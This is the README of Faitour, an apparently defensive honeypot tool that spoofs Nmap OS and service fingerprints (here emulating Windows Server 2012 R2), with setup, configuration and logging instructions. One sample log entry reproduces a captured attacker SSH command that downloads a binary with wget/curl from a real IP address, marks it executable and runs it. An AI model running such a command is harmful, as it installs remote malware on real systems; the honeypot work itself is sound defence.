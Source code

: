 # Faitour (Imposter)

Faitour was cloned from [eightus/Cyder](https://github.com/eightus/Cyder), so I must first give credit to that project. Although that project is no longer maintained, you can still reference it for the original version.

Faitour has been stripped down to simply the OS emulation capabilities, and I have tried to simplify installation on Ubuntu 22.04. There is a ton of code clean-up that can still be done, but this was intended to be a quick and simple compliment to OpenCanary to more closely emulate different operating systems for NMAP fingerprinting.

Cyder was originally a Honeypot that was designed to imitate any Operating System (OS) that is available in the NMAP database. What remains in Faitour is the ability to detect NMAP probes and reply with spoofed OS and service fingerprints.

## Prerequisites

This project has been tested on Ubuntu 22.04 LTS. However, other Operating System **_MAY_** work if they have the following libraries:

- iptables
- libnetfilter_queue
- Python 3.6+

_For Ubuntu 16, you must upgrade Python to 3.6._

## Setting Up

### Ubuntu 22.04 LTS

A script is provided at `./setup.sh` to install all the required libraries, python modules, and create a SystemD service.
`sudo ./setup.sh`

### Ubuntu 16.04 LTS

By default, Ubuntu 16.04 does not have Python 3.6.You must first install Python 3.6 before running `./setup.sh`, and event then, your mileage may vary.

### Other Linux

Ensure that `iptables` and `libnetfilter_queue` are available, as well as the version of Linux is able to install the `libnetfilter-queue-dev`.
`libnetfilter-queue-dev` is required for Python 3 NetfilterQueue
Python 3.6 and above is required for Asyncio work.
_No other flavors of Linux have been tested._

## Configuration

After installing, you should change the configurations before starting the service.

The configuration file is located at:

`./configuration/host_config.ini`

Example configurations may be found in:

`./configuration/sample_configs/<description>/`

### Default Configuration:

The follwoing default configuration will be installed with Faitor. This will emulate a Windows Server 2012 R2 with the basic RPC, SMB, and RDP services that you would find on a typicaly Server 2012 R2 installation. The RPC fingerprints were chosen to match a real-world scan of a Server 2012 R2 box. 

_IMPORTANT!_ As with all configurations, including the sample configurations provided, you must update the `interface` and `ip` values to match your device's configuration, or spoofing will not work. 

```
[CONFIGURATION]
logging = localhost
# IMPORTANT! Change "interface" to match your interface name
interface = eth0
log_path = /var/log/faitour
debug = true

[HOST]
# IMPORTANT! Change "ip" to match your device's IP address
ip = 10.10.10.10
mac_address = false
http = false
ssh = false
telnet = false
file_system = ./configuration/fs/default_fs.json

# Windows Server 2012 R2 Emulation
fingerprint = SEQ(SP=FE-108%GCD=1-6%ISR=103-10D%TI=I|RD%II=I%SS=S%TS=A|C)
    OPS(O1=M5B4NW8ST11%O2=M5B4NW8ST11%O3=M5B4NW8NNT11%O4=M5B4NW8ST11%O5=M5B4NW8ST11%O6=M5B4ST11)
    WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
    ECN(R=Y%DF=Y%T=7B-85%TG=80%W=FFFF%O=M5B4NW8NNS%CC=Y%Q=)
    T1(R=Y%DF=Y%T=7B-85%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
    T2(R=N)
    T3(R=N)
    T4(R=N)
    T5(R=Y%DF=Y%T=7B-85%TG=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
    T6(R=N)
    T7(R=N)
    U1(DF=N%T=7B-85%TG=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
    IE(DFI=N%T=7B-85%TG=80%CD=Z)

# Microsoft SMB Emulation
139 = \x83\0\0\x01\x8f$
445 = \0\0\0.\xffSMBr\0\0\0\0\x88\x01@\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\x06\0\0\x01\0\x11\x07\0.2\0\x01\0\x04A\0\0\0\0\x01\0\0\0\0\0\xfc\xe3\x01\0

# Windows RPC Emulation
135 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1025 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1026 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1027 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1028 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1113 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1169 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
2701 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$

# Microsoft RDP
3389 = \x03\0\0*%\xe0\0\0\0\0\0

```

Remember to change the interface name and IP address to match your device settings.

## Starting the Emulator

To run the OS emulator, simply start the systemd service by running:

`sudo systemctl start faitour.service`

## Fingerprints & Services

Operating System Fingerprints can be found at: https://svn.nmap.org/nmap/nmap-os-db

Service Fingerprints can be found at: https://svn.nmap.org/nmap/nmap-service-probes

Be sure to run an NMAP scan from another machine to ensure that everything is working as expected. 

`nmap -sS -sV -O <ip address>`

## Key Files

`./setup.sh`
  - Setup script for Ubuntu 22.04 LTS

`./configuration/host_config.ini`
  - Configuration for OS emulation

## Logging

Logs are stored in `/var/log/faitour` by default. All logs are in `json` format.

**faitour.json**

- Contains credentials and commands that are attempted through SSH / Telnet / HTTP
- Example of Logs:
- `{"timestamp": 1577716279.8859844, "protocol": "SSH", "username": "root", "password": "admin", "dst_ip": "x.x.x.x", "dst_port": 22, "src_ip": "x.x.x.x", "src_port": 52772}`
- `{"timestamp": 1577682398.527439, "protocol": "SSH", "command": "#!/bin/sh\nPATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\nwget http://23.228.113.117/21\ncurl -O http://x.x.x.x/21\nchmod +x 21\n./21\n", "dst_ip": "x.x.x.x", "dst_port": 22, "src_ip": "x.x.x.x", "src_port": 50433}`
- `{"timestamp": 1577682701.8840919, "protocol": "Telnet", "username": "admin", "password": "", "src_ip": "x.x.x.x", "dst_ip": "x.x.x.x", "src_port": 56380}`
- Timestamp is in epoch time format.

**packet.json**

- Contains the packet bytes the host received. **NOTE:** it does not contain packets that are sent out.
- Example of Packet Log:
- `{"timestamp": 1577678695.520519, "dst_ip": "x.x.x.x", "host_os": "HOST", "src_ip": "x.x.x.x", "services": 22, "packet": "d2h5IGRpZCB5b3UgZXZlbiB0cnkgdG8gZGVjb2RlIHRoaXM/IEkgd291bGRuJ3QgcHV0IGEgcmVhbCBwYWNrZXQgaGVyZQ==\n"}`
- The packet is base64 encoded.To decode it, use:
- `base64.decodebytes(packet.encode('ascii'))`
- This will return you the actual bytes.
- `services` is the port number.

**debug.json**

- Self-explanatory

## Limitations and Known Issues

### Limitations:

- NMAP may yield an inaccurate result during an aggressive scan, but it should not affect the average NMAP fingerprinting.
- UDP Packets are dropped due to the inability to spoof the OS.

### Known Issues:

None yet. Please report any issues you encounter.

## TODO

* [x] Operating System Spoofing
* [ ] Code Clean Up of Cyder's Honeypot Functionality

## Credits

* [@eightus](https://github.com/eightus) for the original Cyder project
* [@1Stronk](https://github.com/1Stronk) for some tips on getting this to work on Ubuntu 22.04
